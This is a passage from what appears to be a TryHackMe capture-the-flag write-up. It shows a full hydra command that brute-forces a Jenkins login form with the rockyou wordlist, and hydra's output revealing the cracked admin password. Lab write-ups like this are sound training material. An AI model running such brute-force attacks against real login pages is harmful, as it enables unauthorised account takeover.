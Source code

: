 ![Pasted image 20210818192605.png](/assets/images/internal/jenkinsb4.png)






After some deafult creds were tried, let's see if we can brute force it with hydra.. I fired up Burp Suite Proxy and tweaked the POST request.

```bash
┌──(raindayzz㉿redfish)-[~/TryHackMe/Internal2]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 7000 http-post-form "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password" 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-18 19:27:19
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://localhost:7000/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password
[7000][http-post-form] host: localhost   login: admin   password: spongebob
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-18 19:27:37
```

I was able to crack the admin password with hydra, rookie stuff.
